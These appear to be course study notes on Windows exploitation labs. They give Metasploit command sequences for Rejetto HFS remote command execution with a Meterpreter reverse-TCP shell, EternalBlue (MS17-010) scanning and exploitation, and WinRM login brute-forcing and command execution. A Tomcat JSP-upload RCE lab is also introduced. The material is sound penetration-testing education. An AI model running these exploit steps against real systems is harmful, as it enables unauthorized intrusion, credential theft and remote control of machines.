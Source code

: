 # Exploitation

## Windows Exploitation

### HFS (HTTP File Server) <a href="#hfs-http-file-server" id="hfs-http-file-server"></a>

A **HFS** (HTTP File Server) is a file and documents sharing web server.

* Rejetto HFS - free open source HTTP file server

> 🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
> * Target IP: 10.0.17.144
> * Exploit the target with the appropriate Metasploit Framework module
> * [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

```bash
service postgresql start && msfconsole -q
msf5 > db_status
msf5 > set RHOSTS 10.0.17.144
msf5 > workspace -a HFS
```

* Perform an `nmap` scan directly into MSF

```bash
msf5 > db_nmap -sS -sV -O 10.0.17.144
```

<figure><img src="../../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > search rejetto
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 > info
msf5 > run
```

<figure><img src="../../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

* Type of payload can be changed base on the target O.S. architecture

```bash
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > options
msf5 > run
```

```sh
shell
cd /
dir
type flag.txt
```

<figure><img src="../../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `f74c8347798f4082daf4b4570dba094a`
{% endhint %}

### SMB - MS17-010 EternalBlue <a href="#smb-ms17-010-eternalblue" id="smb-ms17-010-eternalblue"></a>

* [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
* [EternalBlue VA](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/4-va#eternalblue)
  * **EternalBlue** takes advantage of a Windows SMBv1 protocol vulnerability
  * Patch was released in March 2017

> 🔬 Check the [Lab 2 - Eternal Blue here](../system-host-based-attack/windows-operating-system/smb.md)

* Some MSF useful commands from my Home Lab (`Kali VM + Win 2008_R2 Server`)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS <Target IP>
setg RHOST <Target IP>
workspace -a EternalBlue

db_nmap -sS -sV -O <Target IP>
```

```bash
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
options
run

search type:exploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
options
run
```

### WinRM <a href="#winrm" id="winrm"></a>

* Identify WinRM users with MSF and exploit WinRM by obtaining access credentials.
* Default WinRM HTTP port is **`5985`** and HTTPS **`5986`**

> [🔬 WinRM Attack la](../system-host-based-attack/windows-operating-system/winrm.md)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS <Target IP>
setg RHOST <Target IP>
workspace -a WinRM

db_nmap -sS -sV -O -p- <Target IP>
# Port 5985 is set up for WinRM
```

```bash
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods
options
run

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
run
```

### Apache Tomcat <a href="#apache-tomcat" id="apache-tomcat"></a>

[**`Apache Tomcat`**](https://tomcat.apache.org/) is a free open source Java servlet web server, _build to host dynamic websites and web apps developed in **Java**_.

* Tomcat default TCP port is **`8080`**
* Apache web server host HTML/PHP web apps, instead
* Apache Tomcat < **`v.8.5.23`** is vulnerable to a Java Service Page (JSP) Upload Bypass / RCE

> 🔬 [Windows: Java Web Server](https://attackdefense.com/challengedetails?cid=1948)
>
> * Target IP: `10.2.24.113`
> * Exploit the target with the appropriate Metasploit Framework module
> * [Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution](https://www.exploit-db.com/exploits/42966)









